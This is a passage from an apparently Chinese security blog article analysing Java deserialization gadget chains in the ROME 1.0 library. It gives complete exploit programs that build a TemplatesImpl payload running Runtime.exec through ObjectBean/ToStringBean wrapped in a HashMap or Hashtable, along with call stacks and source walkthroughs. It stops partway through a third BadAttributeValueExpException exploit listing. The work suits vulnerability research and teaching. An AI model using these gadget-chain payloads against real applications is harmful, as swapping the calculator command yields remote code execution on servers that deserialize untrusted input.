Java安全之Rome链分析与利用

- - -

# Java安全之Rome链分析与利用

## 1\. Rome简介

官方文档：[https://rometools.github.io/rome/](https://rometools.github.io/rome/)

> ROME is a Java framework for RSS and Atom feeds. It's open source and licensed under the Apache 2.0 license.  
> ROME includes a set of parsers and generators for the various flavors of syndication feeds, as well as converters to convert from one format to another. The parsers can give you back Java objects that are either specific for the format you want to work with, or a generic normalized SyndFeed class that lets you work on with the data without bothering about the incoming or outgoing feed type.

ROME 是一个用于 RSS 和 Atom 订阅的 Java 框架。它是开源的，并根据 Apache 2.0 许可授权。

ROME 包括一套解析器和生成器，可用于各种形式的聚合提要，以及将一种格式转换为另一种格式的转换器。解析器可以为您提供特定格式的 Java 对象，或者是通用的规范化 SyndFeed 类，让您可以处理数据，而无需考虑传入或传出的 feed 类型。

## 2\. 相关类

ObjectBean、EqualsBean、ToStringBean都是可利用类

在ToStringBean的toString方法中，大致意思就是传递一个类，获取该类的set或者get方法，并且能够使用invoke调用，这里就可以利用下面描述的链

另外在EqualsBean的beanHashCode方法中，也同样拥有相关功能

## 3\. 环境依赖

```plain
<dependency>
    <groupId>rome</groupId>
    <artifactId>rome</artifactId>
    <version>1.0</version>
</dependency>
```

## 4\. ObjectBean利用链

### 利用链

```plain
TemplatesImpl.getOutputProperties()
ToStringBean.toString(String)
ToStringBean.toString()
EqualsBean.beanHashCode()
EqualsBean.hashCode()
ObjetBean.hashCode()
HashMap<K,V>.hash(Object)
HashMap<K,V>.readObject(ObjectInputStream)
```

### EXP

```plain
package RomeSec;

import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

public class ObjectBeanExp {
    public static void main(String[] args) throws Exception {
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        // 创建恶意类
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload = classPool.makeClass("dddd");
        payload.setSuperclass(classPool.get(AbstractTranslet));
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes = payload.toBytecode();

        // 创建TemplatesImpl对象
        Object templateImpl = Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();
        setFiled(templateImpl, "_bytecodes", new byte[][]{bytes});
        setFiled(templateImpl, "_name", "test");
        setFiled(templateImpl, "_tfactory", null);

        // 创建ToStringBean对象
        ToStringBean toStringBean = new ToStringBean(Templates.class, templateImpl);
        // 创建ObjectBean对象
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);
        setFiled(objectBean,"_toStringBean", null);
        setFiled(objectBean, "_cloneableBean", null);

        // 创建hashMap
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(objectBean, "aaaa");

        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("ObjectBean.bin"));
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();

        // 反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("ObjectBean.bin"));
        objectInputStream.readObject();
        objectInputStream.close();
    }

    public static void setFiled(Object o, String fieldname, Object value) throws Exception {
        Field field = o.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }
}
```

### 函数调用栈

```plain
exec:347, Runtime (java.lang)
<clinit>:-1, dddd
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
newInstance:442, Class (java.lang)
getTransletInstance:455, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
newTransformer:486, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getOutputProperties:507, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
beanHashCode:193, EqualsBean (com.sun.syndication.feed.impl)
hashCode:110, ObjectBean (com.sun.syndication.feed.impl)
hash:338, HashMap (java.util)
readObject:1397, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:50, ObjectBeanExp (RomeSec)
```

### 详细分析

注：调试分析的时候只需要保留反序列化部分的代码即可  
从HashMap的readObject方法开始  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120124333-77328896-b74e-1.png)

这里的key是ObjectBean对象，这就是exp中向HashMap对象put objectBean对象的原因，这样key就是objectBean对象

```plain
// 创建hashMap
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put(objectBean, "aaaa");
```

为什么key需要是objectBean对象，进入hash函数  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120124504-adb2ce94-b74e-1.png)

key为objectBean对象，调用其hashCode方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120124525-ba66841e-b74e-1.png)

**问题一**：这里的\_equalsBeans是EqualsBean对象，如何得来？  
进入EqualsBean的beanHashCode方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120124544-c567dda4-b74e-1.png)

**问题二**：这里的EqualsBean对象的\_obj是ToStringBean对象，如何得来？

进入ToStringBean的toString方法

```plain
public String toString() {
    Stack stack = (Stack)PREFIX_TL.get();
    String[] tsInfo = (String[])(stack.isEmpty() ? null : stack.peek());
    String prefix;
    if (tsInfo == null) {
        String className = this._obj.getClass().getName();
        prefix = className.substring(className.lastIndexOf(".") + 1);
    } else {
        prefix = tsInfo[0];
        tsInfo[1] = prefix;
    }
    // // 调用重载的 toString 方法，并传入前缀参数
    return this.toString(prefix);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120124606-d2b40050-b74e-1.png)

进入有参数的重载方法

```plain
private String toString(String prefix) {
    StringBuffer sb = new StringBuffer(128);

    try {
        // 获取对象的属性描述符数组
        PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(this._beanClass);
        if (pds != null) {
            // 遍历属性描述符数组
            for(int i = 0; i < pds.length; ++i) {
                // 获取属性名
                String pName = pds[i].getName();
                // 获取属性的读取方法
                Method pReadMethod = pds[i].getReadMethod();
                if (pReadMethod != null && pReadMethod.getDeclaringClass() != Object.class && pReadMethod.getParameterTypes().length == 0) {
                    // 调用属性的读取方法获取属性值
                    Object value = pReadMethod.invoke(this._obj, NO_PARAMS);
                    this.printProperty(sb, prefix + "." + pName, value);
                }
            }
        }
    } catch (Exception var8) {
        sb.append("\n\nEXCEPTION: Could not complete " + this._obj.getClass() + ".toString(): " + var8.getMessage() + "\n");
    }

    return sb.toString();
}
```

先观察getPropertyDescriptors方法，这里的this.\_beanClass为 Class Templates

```plain
public static synchronized PropertyDescriptor[] getPropertyDescriptors(Class klass) throws IntrospectionException {
    PropertyDescriptor[] descriptors = (PropertyDescriptor[])((PropertyDescriptor[])_introspected.get(klass));
    if (descriptors == null) {
        // 这里
        descriptors = getPDs(klass);
        _introspected.put(klass, descriptors);
    }

    return descriptors;
}
```

进入getPDs方法

```plain
private static PropertyDescriptor[] getPDs(Class klass) throws IntrospectionException {
    // 获取类的所有方法
    Method[] methods = klass.getMethods();
    // 获取所有的读取方法
    Map getters = getPDs(methods, false);
    // 获取所有的写入方法
    Map setters = getPDs(methods, true);
    // 合并读取方法和写入方法的结果
    List pds = merge(getters, setters);
    PropertyDescriptor[] array = new PropertyDescriptor[pds.size()];
    pds.toArray(array);
    return array;
}
```

进入重载的getPDs方法

```plain
private static Map getPDs(Method[] methods, boolean setters) throws IntrospectionException {
    Map pds = new HashMap();
    // 遍历方法数组
    for(int i = 0; i < methods.length; ++i) {
        String pName = null;
        PropertyDescriptor pDescriptor = null;
        // 检查方法是否为公共方法
        if ((methods[i].getModifiers() & 1) != 0) {
            // 如果 setters 参数为 true，处理写入方法
            if (setters) {
                // 检查方法名是否以 "set" 开头，返回类型为 void，且参数个数为 1
                if (methods[i].getName().startsWith("set") && methods[i].getReturnType() == Void.TYPE && methods[i].getParameterTypes().length == 1) {
                    // 获取属性名
                    pName = Introspector.decapitalize(methods[i].getName().substring(3));
                    // 创建属性描述符，使用 null 作为读取方法，当前方法作为写入方法
                    pDescriptor = new PropertyDescriptor(pName, (Method)null, methods[i]);
                }
            } 
            // 如果 setters 参数为 false，处理读取方法
            else if (methods[i].getName().startsWith("get") && methods[i].getReturnType() != Void.TYPE && methods[i].getParameterTypes().length == 0) {
                // 检查方法名是否以 "get" 开头，返回类型不为 void，且参数个数为 0
                pName = Introspector.decapitalize(methods[i].getName().substring(3));
                pDescriptor = new PropertyDescriptor(pName, methods[i], (Method)null);
            }
            // 检查方法名是否以 "is" 开头，返回类型为 boolean，且参数个数为 0 
            else if (methods[i].getName().startsWith("is") && methods[i].getReturnType() == Boolean.TYPE && methods[i].getParameterTypes().length == 0) {
                pName = Introspector.decapitalize(methods[i].getName().substring(2));
                pDescriptor = new PropertyDescriptor(pName, methods[i], (Method)null);
            }
        }

        if (pName != null) {
            pds.put(pName, pDescriptor);
        }
    }
    // 返回属性描述符的 Map 对象
    return pds;
}
```

最后执行完getPDs得到的结果如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120124631-e17e0c66-b74e-1.png)  
函数调用栈：

```plain
getPDs:54, BeanIntrospector (com.sun.syndication.feed.impl)
getPropertyDescriptors:41, BeanIntrospector (com.sun.syndication.feed.impl)
toString:129, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
beanHashCode:193, EqualsBean (com.sun.syndication.feed.impl)
hashCode:110, ObjectBean (com.sun.syndication.feed.impl)
hash:338, HashMap (java.util)
readObject:1397, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:50, ObjectBeanExp (RomeSec)
```

回到ToStringBean中的toString方法，执行完getPropertyDescriptors方法得到的结果就是获取到了TemplatesImpl类的getOutputProperties方法相关信息，继续往下执行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120124652-edfdeec0-b74e-1.png)  
然后调用了TemplatesImpl类的getOutputProperties方法，接下来就是TemplatesImpl类的方法调用链

### 相关问题

**问题一**：\_equalsBeans是EqualsBean对象，如何得来？  
在ObjectBean类中有下面两个构造方法：

```plain
public ObjectBean(Class beanClass, Object obj) {
    this(beanClass, obj, (Set)null);
}

public ObjectBean(Class beanClass, Object obj, Set ignoreProperties) {
    this._equalsBean = new EqualsBean(beanClass, obj);
    this._toStringBean = new ToStringBean(beanClass, obj);
    this._cloneableBean = new CloneableBean(obj, ignoreProperties);
}
```

查看EqualsBean的构造方法

```plain
public EqualsBean(Class beanClass, Object obj) {
    if (!beanClass.isInstance(obj)) {
        throw new IllegalArgumentException(obj.getClass() + " is not instance of " + beanClass);
    } else {
        this._beanClass = beanClass;
        this._obj = obj;
    }
}
```

所以这里可以得知obj需要是beanClass的实例化对象

**问题二**：这里的EqualsBean对象的\_obj是ToStringBean对象，如何得来？  
通过上面的分析可知，EqualsBean的\_obj必须是ToStringBean对象，这样才能EqualsBean的beanHashCode方法中调用到ToStringBean的toString方法，因此EqualsBean的\_beanClass方法必须是ToStringBean类

因此，根据ObjectBean和EqualsBean的构造方法，可以得如下exp的构造：

```plain
// 创建ObjectBean对象
ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);
setFiled(objectBean,"_toStringBean", null);
setFiled(objectBean, "_cloneableBean", null);
```

**问题三**：这里的ToStringBean对象的\_obj是TemplatesImpl对象，如何得来？  
在ToStringBean的toString方法中，大致意思就是传递一个类，获取该类的set或者get方法，并且能够使用invoke调用，这里就可以利用TemplatesImpl链  
在如下代码中

```plain
Object value = pReadMethod.invoke(this._obj, NO_PARAMS);
```

要执行一个对象的方法，invoke第一个参数就是该对象，因此这里是构造的ToStringBean对象的\_obj属性是TemplatesImpl对象

而\_beanClass的由来需要看这一句

```plain
PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(this._beanClass);
```

getPropertyDescriptors方法的大致作用是获取一个类的get或set方法，这里需要调用TemplatesImpl的getOutputProperties方法，就必须传入对应的类，这里选择传入接口Templates

查看ToStringBean的构造方法

```plain
protected ToStringBean(Class beanClass) {
    this._beanClass = beanClass;
    this._obj = this;
}

public ToStringBean(Class beanClass, Object obj) {
    this._beanClass = beanClass;
    this._obj = obj;
}
```

故有如下exp构造

```plain
// 创建ToStringBean对象
ToStringBean toStringBean = new ToStringBean(Templates.class, templateImpl);
```

**注**：当然这里也可以不需要在外面套一层ObjectBean，直接将构造的EqualsBean放入HashMap中也可以

## 5\. HashTable利用链

### 利用链

```plain
TemplatesImpl.getOutputProperties()
ToStringBean.toString(String)
ToStringBean.toString()
EqualsBean.beanHashCode()
EqualsBean.hashCode()
ObjetBean.hashCode()
HashTable.reconstitutionPut()
HashTable.readObject(ObjectInputStream)
```

### EXP

```plain
package RomeSec;

import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class HashTableExp {

    public static void main(String[] args) throws Exception{
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        // 创建恶意类
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass ctClass = classPool.makeClass("cccc");
        ctClass.setSuperclass(classPool.get(AbstractTranslet));
        ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes = ctClass.toBytecode();

        // 创建TemplatesImpl对象
        Object templateImpl = Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();
        setFiled(templateImpl, "_bytecodes", new byte[][]{bytes});
        setFiled(templateImpl, "_name", "test");
        setFiled(templateImpl, "_tfactory", null);

        // 创建ToStringBean对象
        ToStringBean toStringBean = new ToStringBean(Templates.class, templateImpl);
        // 创建ObjectBean对象
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);
        setFiled(objectBean,"_toStringBean", null);
        setFiled(objectBean, "_cloneableBean", null);

        // 创建HashTable
        Hashtable hashtable = new Hashtable();
        hashtable.put(objectBean, "test");

        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("HashTable.bin"));
        objectOutputStream.writeObject(hashtable);
        objectOutputStream.close();

        // 反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("HashTable.bin"));
        objectInputStream.readObject();
        objectInputStream.close();
    }

    public static void setFiled(Object o, String fieldname, Object value) throws Exception {
        Field field = o.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }
}
```

### 函数调用栈

```plain
exec:347, Runtime (java.lang)
<clinit>:-1, cccc
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
newInstance:442, Class (java.lang)
getTransletInstance:455, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
newTransformer:486, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getOutputProperties:507, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
beanHashCode:193, EqualsBean (com.sun.syndication.feed.impl)
hashCode:110, ObjectBean (com.sun.syndication.feed.impl)
reconstitutionPut:1218, Hashtable (java.util)
readObject:1195, Hashtable (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:54, HashTableExp (RomeSec)
```

### 详细分析

这里和上一条链的区别就是不使用HashMap，选择使用HashTable，但是只要有方法调用了hashCode方法，后面的链就不会发生改变

在HashTable的readObject方法中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120124724-016f163c-b74f-1.png)

进入HashTable的reconstitutionPut方法，这里调用hashCode方法

```plain
// 用于在哈希表中插入新条目的方法
private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
    throws StreamCorruptedException
{
    if (value == null) {
        throw new java.io.StreamCorruptedException();
    }
    // Makes sure the key is not already in the hashtable.
    // This should not happen in deserialized version.
    // 这里
    int hash = key.hashCode();
    int index = (hash & 0x7FFFFFFF) % tab.length;
    for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
        if ((e.hash == hash) && e.key.equals(key)) {
            throw new java.io.StreamCorruptedException();
        }
    }
    // Creates the new entry.
    @SuppressWarnings("unchecked")
        Entry<K,V> e = (Entry<K,V>)tab[index];
    tab[index] = new Entry<>(hash, key, value, e);
    count++;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120124744-0d0564c4-b74f-1.png)  
这里的key为ObjectBean对象，这样就调用了ObjectBean的hashCode方法，接下来的链与上一个链一致

## 6\. BadAttributeValueExpException利用链

### 利用链

```plain
TemplatesImpl.getOutputProperties()
ToStringBean.toString(String)
ToStringBean.toString()
BadAttributeValueExpException.readObject()
```

### EXP

```plain
package RomeSec;

import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.FileInputStream;
